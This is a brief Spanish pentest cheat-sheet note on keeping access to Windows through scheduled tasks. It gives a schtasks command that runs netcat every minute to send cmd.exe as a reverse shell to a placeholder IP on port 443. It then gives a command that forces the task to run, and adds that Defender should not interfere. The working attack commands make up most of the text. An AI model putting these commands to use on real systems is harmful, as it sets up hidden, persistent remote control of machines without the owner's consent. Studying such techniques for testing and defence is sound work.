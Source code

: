 ```yaml
---
tags: [pentest]
created: 2024-12-21

---
```

---
- tags: #windows #rce #persistencia #nc #netcat #tarea #schtasks
----

## Persistencia con tareas programadas

> Podemos utilizar el comando *schtasks* para crear tareas programadas en Windows y enviar con netcat un terminal.

```Comando de Windows
schtasks /create /tn "Hola Caracola" /tr "c:\windows\temp\nc.exe -e cmd.exe 192.168.x.x 443" /sc minute /mo 1
```

**(NOTA: SE REQUIERE HABER DESCARGADO NETCAT EN LA MÁQUINA (EL DEFENDER NO DEBERÍA DE DAR PROBLEMAS))**

> Podemos forzar la ejecución con:

```Comando 
schtasks /run /tn "Hola Caracola"
```







